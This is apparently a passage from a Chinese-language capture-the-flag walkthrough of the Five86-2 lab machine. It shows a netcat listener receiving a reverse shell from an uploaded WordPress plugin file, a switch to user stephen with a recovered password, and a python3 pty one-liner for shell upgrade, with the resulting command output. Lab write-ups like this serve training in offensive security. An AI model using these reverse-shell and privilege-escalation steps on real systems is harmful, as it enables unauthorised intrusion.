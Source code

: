```shell
┌──(root💀kali)-[~]
└─# nc -lvp 5566
listening on [any] 5566 ...
192.168.36.165: inverse host lookup failed: Unknown host
connect to [192.168.36.89] from (UNKNOWN) [192.168.36.165] 34732
bash: cannot set terminal process group (951): Inappropriate ioctl for device
bash: no job control in this shell
www-data@five86-2:/var/www/html/wp-content/uploads/articulate_uploads/poc6$ ls
<html/wp-content/uploads/articulate_uploads/poc6$ ls
index.html
index.php
```

### 提权

使用*stephen:apollo1*账户名和密码进行登录时返回空shell，通过python3引入合适的shell：`python3 -c 'import pty;pty.spawn("/bin/bash")'`

```
www-data@five86-2:/home$ su stephen
su stephen
Password: apollo1
python3 -c 'import pty;pty.spawn("/bin/bash")'
stephen@five86-2:/home$ id
id
uid=1002(stephen) gid=1002(stephen) groups=1002(stephen),1009(pcap)
```

在使用*id*命令查看当前用户的userID、groupID和其他ID时注意到该用户所属pcap，表示该用户可以进行抓包，`ip add`命令查看网络接口

```
stephen@five86-2:/home$ ip add
ip add
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:19:07:84 brd ff:ff:ff:ff:ff:ff
    inet 192.168.36.165/24 brd 192.168.36.255 scope global dynamic eth0
       valid_lft 80256sec preferred_lft 80256sec
    inet6 fe80::a00:27ff:fe19:784/64 scope link
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether 02:42:54:5a:4f:6f brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
4: br-eca3858d86bf: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:08:d5:e4:33 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.1/16 brd 172.18.255.255 scope global br-eca3858d86bf
       valid_lft forever preferred_lft forever
    inet6 fe80::42:8ff:fed5:e433/64 scope link
       valid_lft forever preferred_lft forever
6: veth3276e15@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-eca3858d86bf state UP group default
    link/ether 16:47:89:2d:0a:e9 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::1447:89ff:fe2d:ae9/64 scope link
       valid_lft forever preferred_lft forever
```
